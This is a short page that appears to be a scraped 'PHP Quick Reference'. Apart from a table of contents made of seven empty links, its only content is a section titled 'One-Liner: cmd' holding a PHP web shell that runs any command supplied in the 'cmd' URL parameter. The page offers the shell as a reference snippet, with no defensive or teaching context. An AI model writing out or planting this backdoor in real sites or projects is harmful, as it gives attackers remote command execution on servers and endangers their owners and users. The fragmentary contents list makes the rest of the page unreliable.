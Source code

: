 # PHP Quick Reference

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## One-Liner: cmd
```
<?php system($_GET["cmd"]); ?>
```
